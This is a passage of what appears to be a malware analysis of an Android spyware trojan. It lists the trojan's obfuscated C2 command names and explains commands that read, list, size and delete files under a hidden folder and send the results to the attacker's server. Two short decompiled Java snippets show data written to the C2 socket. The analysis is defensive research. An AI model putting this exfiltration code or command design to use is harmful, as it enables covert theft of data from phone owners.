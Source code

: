 ```
f5iledowqqww
GExCaalsss7
SDgex8se
PHOCAs7
Gxextsxms
Msppossag
Getconstactx
Rinxgosa
Shetermix
bithsssp64
Deldatall8
M0xSSw9
```
Let's explore the potential for misuse by examining the malicious activities that can be carried out through the execution of some of these commands. We'll notice that in multiple instances, the C2 sends some supplementary data, such as the name of the file to be read/deleted, etc. along with the issued command.

### Unistxcr
Opens the screen of details about the application.

### dowsizetr
Calculates the size of the file `/sdcard/DCIM/.dat/<filename>` and sends it to the C2.
```java
FileInputStream fiswb = new FileInputStream(fx1sw);
MainService.socketOutputStream.writeBytes("@" + String.valueOf(fiswb.available()) + "SXXZEFV");
```
### DOWdeletx
Deletes the file `/sdcard/DCIM/.dat/<filename>`.

### Xr7aou
Reads data from the file `/sdcard/DCIM/.dat/<filename>` and sends it to the C2.

### Caspylistx
Creates a list of all non hidden files stored at `/sdcard/DCIM/.dat` and sends it to the server.
```java
for (File path : MainService.this.allFileNames) {
    if (!path.getName().startsWith(".") && path.exists()) {
        StringBuilder sb2 = new StringBuilder();
        MainService mainService = MainService.this;
        sb2.append(mainService.yyoo1);
        sb2.append(path.getName());
        sb2.append("|");
        mainService.yyoo1 = sb2.toString();
    }
}
```

### spxcheck
Starts the service `com.example.dat.a8andoserverx.calls` if it is not running else terminates it.
